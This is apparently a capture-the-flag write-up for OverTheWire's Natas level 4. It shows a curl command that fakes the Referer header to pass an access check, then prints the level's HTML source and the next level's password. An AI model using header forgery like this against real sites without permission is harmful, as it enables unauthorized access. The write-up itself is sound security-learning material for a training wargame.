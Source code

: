```yaml
---
layout: post
author: mike
categories: natas
---
```



### Level 3 -> 4
#### Game Instructions
>

Let's go to the new exercise and get logged in:
```
Username: natas4
URL:      http://natas4.natas.labs.overthewire.org
```
We get hit with this message:

>Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/index.php" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

So although this really doesn't make sense, there is definitely a way to set/fake the referer with `curl`.

Let's create a command with `curl` that uses the username and password, and also sets the referrer to the desired URL.
```bash
~ curl --user natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/
```
This will let us in since we are using the correct user/pass and the correct referring URL. Here's the source code:
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
Sweet! Now we have the next level's password:
`Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD`
On to the next!
